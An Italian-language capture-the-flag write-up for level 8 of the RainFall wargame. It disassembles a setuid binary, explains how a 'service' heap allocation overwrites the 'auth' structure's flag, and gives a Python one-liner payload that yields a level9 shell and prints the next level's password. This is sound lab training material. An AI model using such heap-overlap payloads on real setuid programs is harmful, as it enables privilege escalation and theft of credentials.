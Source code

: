 # Level 8
Controlliamo le stringhe presenti nel binario:
```
level8@RainFall:~$ readelf -p '.rodata' level8

String dump of section '.rodata':
  [     8]  %p, %p ^J
  [    11]  auth
  [    17]  reset
  [    1d]  service
  [    25]  login
  [    2b]  /bin/sh
  [    33]  Password:^J
```
Sembrano una serie di comandi, in effetti avviando il programma entriamo in un `while(1)`
e risponde solo ai comandi `auth`, `reset`, `service` e `login`.
Ora passiamo ad analizzare con `gdb`:
```
level8@RainFall:~$ gdb -q level8
Reading symbols from /home/user/level8/level8...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080483c4  _init
0x08048410  printf
0x08048410  printf@plt
0x08048420  free
0x08048420  free@plt
0x08048430  strdup
0x08048430  strdup@plt
0x08048440  fgets
0x08048440  fgets@plt
0x08048450  fwrite
0x08048450  fwrite@plt
0x08048460  strcpy
0x08048460  strcpy@plt
0x08048470  malloc
0x08048470  malloc@plt
0x08048480  system
0x08048480  system@plt
0x08048490  __gmon_start__
0x08048490  __gmon_start__@plt
0x080484a0  __libc_start_main
0x080484a0  __libc_start_main@plt
0x080484b0  _start
0x080484e0  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048564  main
0x08048740  __libc_csu_init
0x080487b0  __libc_csu_fini
0x080487b2  __i686.get_pc_thunk.bx
0x080487c0  __do_global_ctors_aux
0x080487ec  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     push   %edi
   0x08048568 <+4>:     push   %esi
   0x08048569 <+5>:     and    $0xfffffff0,%esp
   0x0804856c <+8>:     sub    $0xa0,%esp
   0x08048572 <+14>:    jmp    0x8048575 <main+17>
   0x08048574 <+16>:    nop
   0x08048575 <+17>:    mov    0x8049ab0,%ecx
   0x0804857b <+23>:    mov    0x8049aac,%edx
   0x08048581 <+29>:    mov    $0x8048810,%eax
   0x08048586 <+34>:    mov    %ecx,0x8(%esp)
   0x0804858a <+38>:    mov    %edx,0x4(%esp)
   0x0804858e <+42>:    mov    %eax,(%esp)
   0x08048591 <+45>:    call   0x8048410 <printf@plt>
   0x08048596 <+50>:    mov    0x8049a80,%eax
   0x0804859b <+55>:    mov    %eax,0x8(%esp)
   0x0804859f <+59>:    movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:    lea    0x20(%esp),%eax
   0x080485ab <+71>:    mov    %eax,(%esp)
   0x080485ae <+74>:    call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:    test   %eax,%eax
   0x080485b5 <+81>:    je     0x804872c <main+456>
   0x080485bb <+87>:    lea    0x20(%esp),%eax
   0x080485bf <+91>:    mov    %eax,%edx
   0x080485c1 <+93>:    mov    $0x8048819,%eax
   0x080485c6 <+98>:    mov    $0x5,%ecx
   0x080485cb <+103>:   mov    %edx,%esi
   0x080485cd <+105>:   mov    %eax,%edi
   0x080485cf <+107>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:   seta   %dl
   0x080485d4 <+112>:   setb   %al
   0x080485d7 <+115>:   mov    %edx,%ecx
   0x080485d9 <+117>:   sub    %al,%cl
   0x080485db <+119>:   mov    %ecx,%eax
   0x080485dd <+121>:   movsbl %al,%eax
   0x080485e0 <+124>:   test   %eax,%eax
   0x080485e2 <+126>:   jne    0x8048642 <main+222>
   0x080485e4 <+128>:   movl   $0x4,(%esp)
   0x080485eb <+135>:   call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:   mov    %eax,0x8049aac
   0x080485f5 <+145>:   mov    0x8049aac,%eax
   0x080485fa <+150>:   movl   $0x0,(%eax)
   0x08048600 <+156>:   lea    0x20(%esp),%eax
   0x08048604 <+160>:   add    $0x5,%eax
   0x08048607 <+163>:   movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:   mov    %eax,%edx
   0x08048611 <+173>:   mov    $0x0,%eax
   0x08048616 <+178>:   mov    0x1c(%esp),%ecx
   0x0804861a <+182>:   mov    %edx,%edi
   0x0804861c <+184>:   repnz scas %es:(%edi),%al
   0x0804861e <+186>:   mov    %ecx,%eax
   0x08048620 <+188>:   not    %eax
   0x08048622 <+190>:   sub    $0x1,%eax
   0x08048625 <+193>:   cmp    $0x1e,%eax
   0x08048628 <+196>:   ja     0x8048642 <main+222>
---Type <return> to continue, or q <return> to quit---
   0x0804862a <+198>:   lea    0x20(%esp),%eax
   0x0804862e <+202>:   lea    0x5(%eax),%edx
   0x08048631 <+205>:   mov    0x8049aac,%eax
   0x08048636 <+210>:   mov    %edx,0x4(%esp)
   0x0804863a <+214>:   mov    %eax,(%esp)
   0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:   lea    0x20(%esp),%eax
   0x08048646 <+226>:   mov    %eax,%edx
   0x08048648 <+228>:   mov    $0x804881f,%eax
   0x0804864d <+233>:   mov    $0x5,%ecx
   0x08048652 <+238>:   mov    %edx,%esi
   0x08048654 <+240>:   mov    %eax,%edi
   0x08048656 <+242>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:   seta   %dl
   0x0804865b <+247>:   setb   %al
   0x0804865e <+250>:   mov    %edx,%ecx
   0x08048660 <+252>:   sub    %al,%cl
   0x08048662 <+254>:   mov    %ecx,%eax
   0x08048664 <+256>:   movsbl %al,%eax
   0x08048667 <+259>:   test   %eax,%eax
   0x08048669 <+261>:   jne    0x8048678 <main+276>
   0x0804866b <+263>:   mov    0x8049aac,%eax
   0x08048670 <+268>:   mov    %eax,(%esp)
   0x08048673 <+271>:   call   0x8048420 <free@plt>
   0x08048678 <+276>:   lea    0x20(%esp),%eax
   0x0804867c <+280>:   mov    %eax,%edx
   0x0804867e <+282>:   mov    $0x8048825,%eax
   0x08048683 <+287>:   mov    $0x6,%ecx
   0x08048688 <+292>:   mov    %edx,%esi
   0x0804868a <+294>:   mov    %eax,%edi
   0x0804868c <+296>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:   seta   %dl
   0x08048691 <+301>:   setb   %al
   0x08048694 <+304>:   mov    %edx,%ecx
   0x08048696 <+306>:   sub    %al,%cl
   0x08048698 <+308>:   mov    %ecx,%eax
   0x0804869a <+310>:   movsbl %al,%eax
   0x0804869d <+313>:   test   %eax,%eax
   0x0804869f <+315>:   jne    0x80486b5 <main+337>
   0x080486a1 <+317>:   lea    0x20(%esp),%eax
   0x080486a5 <+321>:   add    $0x7,%eax
   0x080486a8 <+324>:   mov    %eax,(%esp)
   0x080486ab <+327>:   call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:   mov    %eax,0x8049ab0
   0x080486b5 <+337>:   lea    0x20(%esp),%eax
   0x080486b9 <+341>:   mov    %eax,%edx
   0x080486bb <+343>:   mov    $0x804882d,%eax
   0x080486c0 <+348>:   mov    $0x5,%ecx
   0x080486c5 <+353>:   mov    %edx,%esi
   0x080486c7 <+355>:   mov    %eax,%edi
   0x080486c9 <+357>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:   seta   %dl
   0x080486ce <+362>:   setb   %al
   0x080486d1 <+365>:   mov    %edx,%ecx
   0x080486d3 <+367>:   sub    %al,%cl
   0x080486d5 <+369>:   mov    %ecx,%eax
   0x080486d7 <+371>:   movsbl %al,%eax
---Type <return> to continue, or q <return> to quit---
   0x080486da <+374>:   test   %eax,%eax
   0x080486dc <+376>:   jne    0x8048574 <main+16>
   0x080486e2 <+382>:   mov    0x8049aac,%eax
   0x080486e7 <+387>:   mov    0x20(%eax),%eax
   0x080486ea <+390>:   test   %eax,%eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   movl   $0x8048833,(%esp)
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   0x080486fa <+406>:   jmp    0x8048574 <main+16>
   0x080486ff <+411>:   mov    0x8049aa0,%eax
   0x08048704 <+416>:   mov    %eax,%edx
   0x08048706 <+418>:   mov    $0x804883b,%eax
   0x0804870b <+423>:   mov    %edx,0xc(%esp)
   0x0804870f <+427>:   movl   $0xa,0x8(%esp)
   0x08048717 <+435>:   movl   $0x1,0x4(%esp)
   0x0804871f <+443>:   mov    %eax,(%esp)
   0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:   jmp    0x8048574 <main+16>
   0x0804872c <+456>:   nop
   0x0804872d <+457>:   mov    $0x0,%eax
   0x08048732 <+462>:   lea    -0x8(%ebp),%esp
   0x08048735 <+465>:   pop    %esi
   0x08048736 <+466>:   pop    %edi
   0x08048737 <+467>:   pop    %ebp
   0x08048738 <+468>:   ret
End of assembler dump.
```
Questa volta abbiamo tutto nella funzione `main`, si inizia effettivamente con `while(1)`
e il programma sembra suddiviso in piccoli blocchi che leggono tramite la funzione `fgets`,
ma la parte importante per noi è quella all'offset `0x080486e2 <+382>` dove viene verificato
alla posizione `32` dell'indirizzo di memoria precedentemente creato tramite `malloc` tramite
l'input `auth` se è presente il numero `1` così da passare alla funzione `system`.
Dunque molto probabilmente si tratta di una struttura dove nei primi 32 byte sono presenti
i caratteri dopo la parola `auth ` se minori di 31 come si può dedurre dalla condizione
prima della chiamata a `strcpy` e successivamente abbiamo sicuramente una variabile `int`
che però non viene mai settata a nessun valore tranne per la prima volta dove viene impostato
ogni byte a 0.
Ma analizzando il puntatore creato da `malloc` e quello creato da `strdup` dopo il comando 
`service` notiamo che sono a una distanza di 10 byte nell'heap, quindi basterà scrivere il
comando `service` più 10 byte più 32 byte più il numero uno così da poter superare la condizione
per entrare nella shell dopo il comando `login`.

### Soluzione
```
level8@RainFall:~$ python -c 'print "auth " + "\x0a" + "service" + "\x01"*43 ' > /tmp/exploit
level8@RainFall:~$ cat /tmp/exploit - | ./level8
(nil), (nil)
0x804a008, (nil)
0x804a008, 0x804a018
login
id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
exit
0x804a008, 0x804a018
^C
```
```
level8@RainFall:~$ su level9
Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
level9@RainFall:~$
```